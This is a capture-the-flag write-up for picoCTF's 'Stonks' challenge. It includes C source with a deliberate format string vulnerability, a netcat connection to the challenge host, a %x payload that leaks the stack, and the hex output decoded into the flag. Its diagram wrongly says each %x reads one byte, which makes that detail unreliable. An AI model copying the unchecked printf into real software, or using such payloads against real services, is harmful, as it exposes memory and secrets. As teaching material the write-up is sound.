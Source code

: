 # Stonks

> Okay, maybe I'd believe you if you find my API key.

## Source Code

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```

* The last `printf` in the `buy_stonks` function does not have a format specified. This leads to a [format string vulnerability](https://owasp.org/www-community/attacks/Format\_string\_attack).
* The correct use of `printf` is as follows:

```c
printf(”format String”, Arguments);
```

* If only one argument is provided, we can either print out the string or define the format. If we provide the data format, `printf()` will try to find the second argument, and when it can’t find anything, it will start printing data from the stack.

```
Lower address
+-------------------------+
|                         |
|   %x%x%x%x%x%x%x%x%x    | <------ For every format specifier, printf 
|   %x%x%x%x%x%x%x%x%x    |         will read one byte from the stack
|                         |
|-------------------------|
|                         |
|     String pointer      |
|                         |
|-------------------------|  
|                         |
|     return address      |
|                         |
|-------------------------|  
|                         |
|     local variable      |
|                         |
|-------------------------|  
|                         |
|          flag           |
|                         |
+-------------------------+  
Higher address
```

* The code is already running at `mercury.picoctf.net` on port `59616`. We can connect using netcat.

```
$ nc mercury.picoctf.net 59616
```

* On connecting we can choose the `Buy some stonks!` option.
* Once we are prompted to enter the API token, we can try and supply a format specifier. In this case we'll use `%x` which is for printing hexadecimal values.

```
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
84ce410804b00080489c3f7efad80ffffffff184cc160f7f08110f7efadc7084cd180884ce3f084ce4106f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ffcb007df7f35af8f7f084401f30c10010f7d97ce9f7f090c0f7efa5c0f7efa000ffcb7b88f7d8868df7efa5c0
```

* There is a dump of hexadecimal characters in the output. Let's try to decode it using [Cyberchef](https://gchq.github.io/CyberChef/).&#x20;

<figure><img src="../../.gitbook/assets/stonks 1.png" alt=""><figcaption></figcaption></figure>

* We can see a string that resembles our flag. However it seems to be mangled.
* This is because it is in [little-endian](https://www.geeksforgeeks.org/little-and-big-endian-mystery/) format. We can decode this using Cyberchef as well.

<figure><img src="../../.gitbook/assets/stonks 2.png" alt=""><figcaption></figcaption></figure>

* The closing bracket is not present because the string was terminated by a NULL byte. But that is fine we can just add it.
